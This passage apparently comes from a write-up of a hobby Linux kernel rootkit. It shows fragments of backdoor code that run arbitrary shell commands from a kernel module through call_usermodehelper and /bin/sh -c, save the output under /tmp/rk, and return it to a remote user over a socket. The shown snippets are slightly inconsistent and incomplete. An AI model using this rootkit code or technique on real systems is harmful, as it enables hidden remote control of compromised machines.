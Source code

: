 The user input will be pass as an argument to the function `int check_password(const char *input)` that will make differents matematicals operation to check if the modified input is the same as the reference.

>*(the password check isn't really complexe due to the usage of reversible operations that can be used to get the original password but still a bit of anti reversing like a easy/medium challenge for CTF reverse)*

#### Run a command 
*src/backdoor.c:49* 
```c
void run_cmd(char *command)
	int ret;
    char cmd[MAX_BUFFER_SIZE];

    snprintf(cmd, sizeof(cmd), "%s > /tmp/rk/output 2> /tmp/rk/error", command);

    char *argv[] = { "/bin/sh", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=linux",
                     "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL, NULL };
    ret = call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
```
[call_usermodehelper (path,  argv, envp, wait)](https://archive.kernel.org/oldlinux/htmldocs/kernel-api/API-call-usermodehelper.html) is a function that allow us to run a process in user-land from our driver in the kernel and `UMH_WAIT_PROC` wait for the created process to terminate. So in order to run any command given by the user we needed to create a fake argv (argument variable) and envp (environment variable) in order to pass it as parameter to `call_usermodehelper`.
I've tried to run the command directly but seems to failed, but by running the given command under `/bin/sh` with the argument `-c` seems to work

In order to get the redirection of our command to our socket I've redirected the command result to `/tmp/rk/output` that allow me using the read file fonctionality to display the result to the remote user

*src/backdoor.c:268*
```c
else if (strncmp(buf, "cmd ", 4) == 0)
{
     char *command = buf + 4;
     run_cmd(*new_socket, command);
     send_file_content(new_socket, "/tmp/rk/output");
}
```

#### Read files

Sending data back to the socket is really important because a blind rootkit should be great for a pwn challenge in CTF, but really not usefull in real conditions.

To send back data we can use the function [kernel_sendmsg(sock, msg, vec, num, size);](https://www.kernel.org/doc/html/v5.6/networking/kapi.html#c.kernel_sendmsg), that use 3 structs :
* [socket](https://www.kernel.org/doc/html/v5.6/networking/kapi.html#c.socket) for managing sockets
* [msghdr](https://docs.huihoo.com/doxygen/linux/kernel/3.7/structmsghdr.html) for the message header
* [kvec](https://docs.huihoo.com/doxygen/linux/kernel/3.7/structkvec.html) for I/O operations, starting point and len of the message data to send
